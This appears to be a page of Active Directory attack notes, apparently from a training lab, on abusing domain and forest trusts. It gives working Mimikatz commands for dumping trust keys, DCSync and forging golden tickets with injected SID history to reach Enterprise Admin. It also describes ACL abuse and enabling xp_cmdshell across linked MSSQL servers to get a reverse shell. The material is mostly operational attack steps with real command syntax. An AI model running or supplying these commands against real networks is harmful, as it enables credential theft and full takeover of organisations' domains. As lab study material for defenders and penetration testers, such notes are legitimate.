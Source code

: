 - ### What is domain-trust?
A trust in Active Directory is a secure authentication communication between Domain and Forest. Trust enables you to grant access to the resource to users, groups, and computers across the different domains.

- ### What are domain-trust types?
Some trust types:
1. Parent-child
2. Cross-link
3. Tree-root (intra-forest)
4. Forest
5. External (inter-forest)
Enumeration about trust relationship with PS AD-Module:
`Get-DomainTrust -API`

- ### How to exploit Parent-child trust?
-Required to forge trust tickets is, obviously, the trust key. Look for [In] trust key from child to parent. Invoke-Mimikatz -Command '"lsadump::trust /patch"' - ComputerName dcorp-dc or Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\mcorp$"'
-An inter-realm TGT can be forged
-Get a TGS for a service (CIFS below) in the target domain by using the forged trust ticket.
-Tickets for other services (like HOST and RPCSS for WMI, HOST and HTTP for PowerShell Remoting and WinRM) can be created as well.
-Use the TGS to access the targeted service (may need to use it twice).
-Using DA access to dollarcorp.moneycorp.local, escalate privileges to Enterprise Admin or DA to the parent domain, moneycorp.local using the domain trust key.
-We will abuse SID history once again Invoke-Mimikatz -Command '"lsadump::lsa /patch"' Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /sids:S-1- 5-21-280534878-1496970234-700767426-519 /krbtgt:ff46a9d8bd66c6efd77603da26796f35 /ticket:C:\AD\Tools\krbtgt_tkt.kirbi"' • In the above command, the mimkatz option "/sids" is forcefully setting the SID History for the Enterprise Admin group for dollarcorp.moneycorp.local that is the Forest Enterprise Admin Group.

- ### How to exploit Cross-Forest trust?
-Require the trust key for the inter-forest trust. Invoke-Mimikatz -Command '"lsadump::trust /patch"'
-An inter-forest TGT can be forged
-Get a TGS for a service (CIFS below) in the target domain by using the forged trust ticket.
-Tickets for other services (like HOST and RPCSS for WMI, HOST and HTTP for PowerShell Remoting and WinRM) can be created as well.
-Use the TGS to access the targeted service.

- ### How to Abuse ACLs?
-Resides in the System container of a domain and used to control the permissions - using an ACL - for certain built-in privileged groups ( called Protected Groups) for AdminSDHolder.
-It is possible to modify Security Descriptors (security information like Owner, primary group, DACL and SACL) of multiple remote access methods (securable objects) to allow access to non-admin users. Administrative privileges are required for this.

- ### How to exploit MSSQL Servers trust?
Get a reverse shell on a SQL server in eurocorp forest by abusing database links from dcorp-mssql.
-Discovery (SPN Scanning) Get-SQLInstanceDomain.
-Check Accessibility Get-SQLConnectionTestThreaded.
-Gather Information Get-SQLInstanceDomain | Get-SQLServerInfo -Verbose.
-A database link allows a SQL Server to access external data sources like other SQL Servers and OLE DB data sources.
-In case of database links between SQL servers, that is, linked SQL servers it is possible to execute stored procedures.
-Look for links to remote servers Get-SQLServerLink -Instance dcorp-mssql -Verbose
-Enumerating Database Links - Manually • Openquery() function can be used to run queries on a linked database select * from openquery("dcorp-sql1",'select * from master..sysservers')
-Executing Commands • On the target server, either xp_cmdshell should be already enabled; or • If rpcout is enabled (disabled by default), xp_cmdshell can be enabled using: EXECUTE('sp_configure ''xp_cmdshell'',1;reconfigure;') AT "eu-sql"